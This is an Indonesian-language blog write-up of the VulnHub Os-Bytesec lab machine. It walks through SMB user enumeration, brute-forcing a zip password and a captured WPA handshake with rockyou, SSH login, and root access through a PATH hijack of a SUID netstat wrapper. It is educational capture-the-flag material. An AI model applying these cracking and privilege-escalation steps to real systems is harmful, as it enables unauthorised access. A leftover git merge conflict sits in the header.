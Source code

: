 ```yaml
---
title: "[VulnHub] Os-Bytesec WriteUp"
<<<<<<< HEAD
date: 2019-04-19T23:11:19-19:00
=======
date: 2019-04-18T21:24:30-04:00
>>>>>>> f40de57371e084377c216437b4569ef95bc3e2de
categories:
  - blog
tags:
  - vulnhub
  - writeup
  - intermediate
---
```


## Information Gathering
### nmap  
`nmap -sV -sC -p- bytesec.vh -oN initial.nmap -v`

```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 5ECF6AFD7D00CCBE6B3C7AA8FD31BDE8
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:55:4f:1e:e9:7e:ea:87:69:90:1c:1f:b0:63:3f:f3 (RSA)
|   256 a6:70:f1:0e:df:4e:73:7d:71:42:d6:44:f1:2f:24:d2 (ECDSA)
|_  256 f0:f8:fd:24:65:07:34:c2:d4:9a:1f:c0:b8:2e:d8:3a (ED25519)
MAC Address: 08:00:27:B3:78:46 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Server menjalankan web server di port 80, dan SMB di 139 dan 445.
![index.html](/Os-Bytesec/index.jpg){: .img-content }

### dirb 
Saya sempat mencoba dirscanning dan menemukan file `news.png` di `/img`.
![news.png](/Os-Bytesec/news.png){: .img-content }
Hmm pakah mesin ini vuln BlueKeep ? :thinking:
>**BlueKeep** is a remote code execution vulnerability exists in Remote Desktop Services – formerly known as Terminal Services – when an unauthenticated attacker connects to the target system using RDP and sends specially crafted requests. This vulnerability is pre-authentication and requires no user interaction. An attacker who successfully exploited this vulnerability could execute arbitrary code on the target system. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights. ([_microsoft_](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2019-0708))

### enum4linux
Karena server menjalankan SMB, maka kita dapat mengumpulkan informasi yang berkaitan dengan SMB dengan tools enum4linux.

enum4linux adalah tools untuk melakukan enumerasi sistem Windows dan  Server Message Block (SMB/Samba) untuk mendapatkan informasi mulai dari domain, OS, versi SMB, hingga user yang ada dalam suatu domain.

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
```

### smbclient
Dari hasil enumerasi enum4linux diatas kita mendapatkan 3 user, setelah dicoba satu-satu hanya user `smb` yang bisa login SMB.
`smbclient //bytesec.vh/smb -U smb -p `
```
smb: \> ls
  .                                   D        0  Mon Nov  4 18:50:37 2019
  ..                                  D        0  Mon Nov  4 18:37:28 2019
  main.txt                            N       10  Mon Nov  4 18:45:38 2019
  safe.zip                            N  3424907  Mon Nov  4 18:50:37 2019
```
Download file `save.zip` saja (karena ternyata `main.txt` cuma file txt isi kata "helo" doang).
### fcrackzip
Karena file `save.zip` ternyata berpassword,  kita bisa bruteforce passwordnya dengan menggunakan tools **fcrackzip**.
`fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip`

```
PASSWORD FOUND!!!!: pw == hacker1smb:

```
Isi dari `safe.zip` adalah satu gambar dengan nama `secret.jpg` yang gak ada "secret-secret"--nya dan file `user.cap`.  
![deauth](/Os-Bytesec/deauth.jpg){: img_content }
Setelah lihat-lihat isi `user.cap` ternyata banyak sekali paket deauth yang tercapture, maka dapat disimpulkan ini adalah file _capture_-an dari bocah yang mau ngehek wifi pake `aireplay-ng`. Karena asumsinya itu adalah file _three-way handshake_ dari `airodump`/`aireplay`, maka kita bisa crack password yang tercapture dengan menggunakan `aircrack`.
`aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap`
```
Aircrack-ng 1.5.2 

      [00:00:14] 83800/7120712 keys tested (5232.31 k/s) 

      Time left: 22 minutes, 24 seconds                          1.18%

                           KEY FOUND! [ snowflake ]


      Master Key     : 8B A6 3F 95 1C E3 00 CA 30 C2 6E 63 59 61 35 42 
                       AB F7 73 5C D7 AD 3A 10 DB 21 51 64 DC 59 C6 8F 

      Transient Key  : 8E CC 35 6D EF 71 B7 2D 8D D5 03 3E 0D 5F 13 87 
                       BB 50 D3 85 31 BB 25 5A E7 AF 09 0D 85 42 6A 54 
                       60 CB 7F 40 7A E8 95 D5 A2 15 B1 19 66 17 64 CA 
                       7B FE 3D E6 66 6C B8 35 61 67 20 B2 8A C1 00 83 

      EAPOL HMAC     : 9D 5D 3B 71 C9 9E 71 31 58 38 53 A7 92 1C C5 48
```
Lalu apa informasi yang kita dapat? ESSID `user.cap` bernama blackjax dan key bernama `snowflake`. Hmm.. SSH! :smiley: 
## Exploitation
### User Flag
Dan ternyata kita berhasil login berdasarkan informasi yang kita dapat dari file `user.cap` tadi.
```
cat user.txt
  _    _  _____ ______ _____        ______ _               _____ 
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __ 
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|
                                                                 
                                                                 

Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```
### Root Flag
Hal wajib yang perlu dilakukan untuk melakukan privesc di sistem Linux adalah melakukan enumerasi dengan [**linenum.sh**](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Cari direktori writeable dan jalankan file linenum disitu.  

Salah satu poin yang cukup interesting yaitu adanya file/program `netscan` di `/usr/bin/` yang mempunyai flag `SUID/SETUID`, flag tersebut berarti kita dapat menjalankan program tsb dengan mendapat privilege/permission sebagai root. File `netscan` menarik karena file/program tersebut tidak ada pada mesin pada umumnya.

#### Netscan
Rupanya program `netscan` hanya berupa "script" dari tools `netstat`.
```
blackjax@nitin:/tmp$ netscan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      1098/sshd       
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      861/smbd        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1041/mysqld     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      861/smbd        
tcp        0    188 192.168.43.97:2525      192.168.43.192:46168    ESTABLISHED 4133/sshd: blackjax
tcp6       0      0 :::2525                 :::*                    LISTEN      1098/sshd       
tcp6       0      0 :::445                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::139                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::80                   :::*                    LISTEN      1129/apache2    
```
Maka dari itu dapat diasumsikan bahwa `netscan` hanyalah skrip buatan netadmin agar `netstat` hanya menampilkan koneksi `established`. Logika diatas dapat dimanfaatkan untuk privilege escalation.
#### PrivEsc
1. Pindah ke `/tmp`, karena attribute direktory `/tmp` drwxrwxrwx.
 `cd /tmp`
2. Buat file bernama "netstat" dengan isi "/bin/sh"
 `echo "bin/sh" > netstat`
3. Tambahkan direktori `/tmp` ke environtment variable / `$PATH` dengan urutan paling awal.
 `export PATH=/tmp:$PATH`
 4. Jalankan lagi `netscan`
 
 Setelah `netscan` dijalankan lagi, ternyata kita berhasil mendapat user root dan flag root :smiley:
```
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __  
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /  
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/   
                     /_____/                           
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me

```

Bingung kenapa logika tsb bisa jalan? _sama saya juga_
Ok jadi kunci keberhasilan privescnya adalah perubahan environtment variable / `$PATH`. Kita merubah **`netstat` asli** yang berisi tools untuk menampilkan koneksi aktif menjadi **"`netstat`" palsu** yang berisi command untuk memanggil shell. Umumnya dengan hanya merubah `netstat` asli menjadi `netstat` palsu kita juga tidak akan mendapat user root. Namun, karena kita menjalankan program **`netscan`** yang memiliki flag `SUID`, kita berhasil mendapat akses shell root.

Sederhananya, kita merekayasa "arah" pemanggilan file `netstat` pada program `netscan` yang seharusnya memanggil `/usr/bin/netstat` menjadi memanggil `/tmp/netstat` yang berisi perintah untuk memanggil shell. Ditambah dengan flag/attribute `SUID` yang ada di program `netscan`, maka yang terpanggil adalah shell root.

Sekian write up kali ini, see ya next time :heart: 
 


